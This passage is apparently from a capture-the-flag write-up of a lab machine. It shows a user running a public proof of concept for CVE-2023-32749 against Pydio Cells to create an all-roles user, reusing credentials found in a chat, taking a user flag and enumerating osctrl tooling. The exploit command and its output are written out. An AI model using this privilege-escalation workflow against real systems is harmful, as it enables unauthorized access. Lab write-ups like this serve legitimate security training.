 
Credentials work and we can access File Sharing platform

![](5.png)

Nothing interesting. There's a publicly available [PoC for CVE-2023-32749 for Pydio Cells](https://github.com/xcr-19/CVE-2023-32749), which will create a new user with all roles
```
└─$ python3 exploit.py -u 'k.dagenais' -p 'Summer2023!' -l 'https://cells.intra.control.vl'
[*] Got the JWT token DOtMTIpTBgyFVMWDrWpCdwUH9X3gTMtTYz9_UQpet10.Gw6-41Vr_nVHdvn4_6IAYCphfoNHhsohSp2pM5t6SvE
[*] Got uuids for the new user
[*] Created new user: foobar with password: hunter2
<SNIP>
```

After authenticating as new user, we find 2 additional files

![](6.png)

We find user credentials for `provision` user in chat roomm

![](7.png)

Trying it on `os.control.vl` works and we get first user flag

![](8.png)

We see mentioned [osctrl](https://osctrl.net/usage/osctrl-cli/) and [osquery](https://github.com/osquery/osquery)
```
provision@os:/opt$ ls -hla osctrl/
total 103M
drwxr-xr-x 7 root   root   4.0K Jun 30  2023 .
drwxr-xr-x 4 root   root   4.0K Jun 30  2023 ..
drwxr-xr-x 2 osctrl osctrl 4.0K Jun 30  2023 carved_files
drwxr-xr-x 2 root   root   4.0K Jun 30  2023 config
drwxr-xr-x 2 root   root   4.0K Jun 30  2023 data
-rwxr-xr-x 1 root   root    30M Jun 30  2023 osctrl-admin
-rwxr-xr-x 1 root   root    21M Jun 30  2023 osctrl-api
-rwxr-xr-x 1 root   root    20M Jun 30  2023 osctrl-cli
-rwxr-xr-x 1 root   root    34M Jun 30  2023 osctrl-tls
drwxr-xr-x 6 root   root   4.0K Jun 30  2023 static
drwxr-xr-x 3 root   root   4.0K Jun 30  2023 tmpl_admin
provision@os:/opt$ ls -hla osquery/
total 16K
drwxr-xr-x 4 root root 4.0K Jun 30  2023 .
drwxr-xr-x 4 root root 4.0K Jun 30  2023 ..
drwxr-xr-x 2 root root 4.0K Jun 30  2023 bin
drwxr-xr-x 3 root root 4.0K Jun 30  2023 share
```

We can list existing users using `osctrl-cli`
```
provision@os:/opt$ /opt/osctrl/osctrl-cli -d -D /opt/osctrl/config/db.json user h
NAME:
   osctrl-cli user - Commands for users

USAGE:
   osctrl-cli user command [command options] [arguments...]

COMMANDS:
   add, a                         Add a new user
   edit, e                        Edit an existing user
   change-permissions, p, access  Change permission in an environment for an existing user
   reset-permissions, R, reset    Clear and reset permissions for a user in an environment
   show-permissions, S, perms     Show permissions for a user in an environment
```